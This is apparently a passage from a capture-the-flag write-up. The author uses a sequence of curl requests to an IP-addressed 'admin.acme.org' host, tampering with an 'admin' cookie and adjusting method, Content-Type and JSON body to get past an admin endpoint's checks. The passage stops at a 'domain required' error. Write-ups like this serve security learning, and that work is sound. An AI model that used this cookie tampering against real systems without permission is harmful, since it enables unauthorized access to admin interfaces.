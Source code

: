 So, the page sets a cookie called "admin" to "no". Let's see what happens if we change it to "yes".

> curl -v 'http://104.236.20.43/' -H 'Host: admin.acme.org' -b admin=yes

```
> GET / HTTP/1.1
> Host: admin.acme.org
> Cookie: admin=yes
>
< HTTP/1.1 405 Method Not Allowed
<
```

We are not allowed to do GET requests here, let's try POST instead.

> curl -v -X POST 'http://104.236.20.43/' -H 'Host: admin.acme.org' -b admin=yes

```
> POST / HTTP/1.1
> Host: admin.acme.org
> Cookie: admin=yes
>
< HTTP/1.1 406 Not Acceptable
<
```

There is something else with out request that is incorrect.
Here I consulted the [MDN documentation on HTTP 406](https://developer.mozilla.org/en-US/docs/Web/HTTP/Status/406) which led me to try various values for the "Accept-\*" headers. 
Eventually I realized that there are different ways to deliver data in a POST request. Probably the most common way to do it in modern applications nowadays is using JSON, so I tried changing the Content-Type header accordingly.

> curl -v -X POST 'http://104.236.20.43/' -H 'Host: admin.acme.org' -H 'Content-Type: application/json' -b admin=yes

```
> POST / HTTP/1.1
> Host: admin.acme.org
> Cookie: admin=yes
> Content-Type: application/json
> 
< HTTP/1.1 418 I'm a teapot
< Content-Type: application/json
< 
{"error":{"body":"unable to decode"}}
```

Progress! However, now something is wrong with the body. Very reasonable, given that we haven't provided one yet. I started out with just an empty JSON object.

> curl -X POST 'http://104.236.20.43/' -H 'Host: admin.acme.org' -H 'Content-Type: application/json' -b admin=yes --data '{}'

```
{"error":{"domain":"required"}}
```
